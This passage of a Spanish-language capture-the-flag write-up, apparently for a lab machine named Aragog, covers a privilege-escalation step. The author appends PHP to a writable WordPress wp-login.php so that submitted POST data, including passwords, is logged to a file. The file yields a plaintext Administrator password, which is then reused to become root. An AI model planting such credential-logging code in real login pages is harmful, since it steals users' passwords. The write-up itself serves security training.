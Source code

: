 Con lo que tenemos, podemos pensar que el programa `/home/cliff/wp-login.py` se está autenticando el el portal de login de wordPress y como tenemos permisos para modificar los archivos encontrado en `dev_wiki`, podemos obtener las crenciales de login agregando las siguientes líneas en el archivo `wp-login.php` (Nota: Hay que hacerlo rápido porque tenemos que recordar que se restablecen los archivos de dicho directorio debido al script `restore.sh` ejecutado por el usuario **root**).

```bash
require( dirname(__FILE__) . '/wp-load.php' );

$file='datos_login.txt';
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
```

Con lo anterior, se crea un archivo de nombre `datos_login.txt` cuando se intenta autenticar en el panel de login de WordPress. Para ver cuando el archivo se haya creado, monitoreamos el contenido de la carpeta con:

```bash
florian@aragog:/var/www/html/dev_wiki$ watch -n 1 ls -l
```

Vemos rápidamente el contenido del archivo `datos_login.txt`:

```bash
florian@aragog:/var/www/html/dev_wiki$ cat datos_login.txt
Array
(
    [pwd] => !KRgYs(JFO!&MTr)lf
    [wp-submit] => Log In
    [testcookie] => 1
    [log] => Administrator
    [redirect_to] => http://127.0.0.1/dev_wiki/wp-admin/
)
florian@aragog:/var/www/html/dev_wiki$
```

Y tenemos la contraseña del usuario **Administrator** del portal de WordPress. Podíamos pensar que se está utilizando reutilización de contraseñas y podemos probar para el usuario **root** de la máquina.

```bash
florian@aragog:/var/www/html/dev_wiki$ su root
Password: 
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
sh: 0: getcwd() failed: No such file or directory
root@aragog:/var/www/html/dev_wiki# cd ..
chdir: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root@aragog:..# whoami
root
root@aragog:..#
```

A partir de aquí ya podemos visualizar la flag (root.txt).
